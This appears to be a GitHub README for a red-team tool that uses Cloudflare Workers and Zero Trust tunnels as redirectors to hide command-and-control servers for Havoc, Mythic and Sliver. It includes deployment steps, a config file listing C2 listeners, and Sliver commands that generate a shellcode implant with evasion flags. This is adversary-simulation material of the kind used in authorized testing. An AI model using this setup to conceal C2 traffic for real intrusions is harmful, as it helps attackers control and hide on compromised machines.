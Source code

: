 # Cloudflare-Redirector

Inspired by [Alfie Champion](https://twitter.com/ajpc500) [article](https://ajpc500.github.io/c2/Using-CloudFlare-Workers-as-Redirectors/), I decided to publish my own version of a Cloudflare Redirector adding the Zero Trust aspect.

![good old diagram](assets/cf-redirector-v2.png)

Note: The idea or "workflow" can be scaled and can also integrate more feature (Ex: Cloudflare WAF, KV store, R2 buckets, Queues, etc.). I may publish the more complete version in the future.

## V2 update (April 2024)

- Since my documentation was not that good, I made a little cli tool to facilate usage.
- Base on a configuration file to make it easier to apply your config.
- [timesafecheck](https://developers.cloudflare.com/workers/examples/protect-against-timing-attacks).
- Generate multiple router URLs with the `wrangler --env` feature (worker1, worker2, etc.).
- JWT (auth worker) with [cloudflare-worker-jwt](https://github.com/tsndr/cloudflare-worker-jwt).
  - JWT setup is overkill for this project, but wanted to try it out and learn new things.
- Support multiple C2 listeners.
- I made a branch `v1` with the old version.

note: Redirector worker and Auth worker does not have any public URL (only accessbile with worker service binding).

Todo:

- ~~add custom domain routing.~~
- ? (suggestions are welcome)

## Things you will need

- [wrangler cli](https://developers.cloudflare.com/workers/wrangler/). We will use `wrangler cli` to deploy.
  - To make sure wrangler cli is setup correctly: `wrangler whoami`
- A running C2 framework. Ex: [Havoc](https://github.com/HavocFramework/Havoc).
- Cloudflare "regular" account. (free)
  - Having a least one domain managed in your Cloudflare account.
- Initiate your Cloudflare Zero Trust account through your Cloudflare "regular" account. (will ask for a credit card but free for the first 50 users). See screenshot `1.jpg` in assets folder.
- Install Cloudflare tunnel ([cloudflared](https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/downloads/)) in your C2 server.

## Usage

![usage](assets/usagecli.png)

## Setup

![accountid_and_subdomain](assets/14.jpg)

```bash
# clone the repo and cd into it

# copy the configuration file
cp config_demo.json config.json
# modify the config.json

chmod +x cli.sh
# run the cli with -f when its your first time deploying
./cli.sh -f
# you should see the workers in your Cloudflare dashboard
```

Config file example:

```json
{
  "cf_account_id": "<account_id>",
  "cf_account_dev_subdomain": "<subdomain>.workers.dev",
  "secrets": {
    "service_cf_id": "<service_cf_id>",
    "service_cf_secret": "<service_cf_secret>",
    "jwt_secret": "your_secret_key",
    "router_header": "X-Header",
    "router_header_secret": "secret_value",
    "auth_header": "X-Header-Gate",
    "auth_header_secret": "secret_value_auth_gate",
    "id_header": "X-ID"
  },
  "router_route": [
    {
      "id": 1,
      "name": "worker1",
      "use_custom_domain": "false",
      "use_dev_subdomain": "true",
      "pattern": "worker1.example.com"
    },
    {
      "id": 2,
      "name": "worker2",
      "use_custom_domain": "false",
      "use_dev_subdomain": "true",
      "pattern": "worker2.example.com"
    },
    {
      "id": 3,
      "name": "worker3",
      "use_custom_domain": "false",
      "use_dev_subdomain": "true",
      "pattern": "worker3.example.com"
    }
  ],
  "listeners": [
    {
      "id": 1,
      "name": "havoc",
      "address": "https://havoc-listener.example.com/",
      "is_default": "false",
      "port": "443",
      "bind_port": "8443"
    },
    {
      "id": 2,
      "name": "mythic",
      "address": "https://mythic-listener.example.com/",
      "is_default": "true",
      "port": "443",
      "bind_port": "9443"
    },
    {
      "id": 3,
      "name": "sliver",
      "address": "https://sliver-listener.example.com/",
      "is_default": "false",
      "port": "443",
      "bind_port": "6443"
    }
  ]
}
```

### Custom Domains

Using custom domain is optional (`router_route` default configuration doesnt need to be change). You can use the default `workers.dev` subdomain, which is set by the `cf_account_dev_subdomain` key in the config file. Just make sure to set `use_dev_subdomain` to true. So yes, if you set `use_dev_subdomain` to true, you don't need to do care about the `pattern` config.

If you want to use custom domain, here is an example:

```json
...
  "router_route": [
    {
      "id": 1,
      "name": "worker1",
      "use_custom_domain": "true",
      "use_dev_subdomain": "false",
      "pattern": "worker1.mycustomdomain.com"
    },
    {
      "id": 2,
      "name": "worker2",
      "use_custom_domain": "true",
      "use_dev_subdomain": "true",
      "pattern": "worker2.anothercustomdomain.com"
    },
    {
      "id": 3,
      "name": "worker3",
      "use_custom_domain": "false",
      "use_dev_subdomain": "true",
      "pattern": "worker3.example.com"
    }
  ],
...
```

This configuration will create 4 URLs (Hosts for your C2 profile):

- `worker1.mycustomdomain.com`
- `worker2.anothercustomdomain.com`
- `worker2.<subdomain>.workers.dev`
- `worker3.<subdomain>.workers.dev`

note: domain(s) must be in the same Cloudflare account.

## Not sure about the Zero Trust part ?

First time setting up a cloudflare tunnel? Take a look at this [article](https://www.redteaming.org/cftunnels.html) provide by [Cyb3rC3lt](https://twitter.com/Cyb3rC3lt).

I also took some screenshots that are in the assets folder, but in summary:

1. Access zero trust section

2. Create new service-auth token

3. Create new tunnel (and setting up on your C2 server)

4. **Create application (self-hosted) rules to protect your listener** (in the screenshots I'm using github authentication, but you can use the default "one-time pin". BTW, we only care about the Service-Auth policy since only our redirector need to visit listener url).

## After deployment

- Start C2 server with your modified profile.

```bash
# modify profiles/havoc/demo-profile.yaotl
./havoc server --profile profiles/cf-profile.yaotl -v

# modify ~/.sliver/configs/http-c2.json (add header)
profiles new --skip-symbols -b https://127.0.0.1:443 --arch amd64 profileCF
https -L 127.0.0.1 -l 443
generate --http <worker.demo.com> --skip-symbols --disable-sgn --format shellcode --arch amd64
```

- You can see the logs of your worker by selecting the worker in the Cloudflare dashboard and click on the "Logs" tab. After click on "Begin log streams". See screenshot `13.jpg` in assets folder. You can also use the `wrangler tail` command.

## Credits

- [Alfie Champion](https://twitter.com/ajpc500) for the inspiration and article.
- [Toby Schneider](https://github.com/tsndr) for [cloudflare-worker-jwt](https://github.com/tsndr/cloudflare-worker-jwt).
- [Cyb3rC3lt](https://twitter.com/Cyb3rC3lt) for the [article](https://www.redteaming.org/cftunnels.html) on Cloudflare tunnel.
- [Yack](https://yack.one).
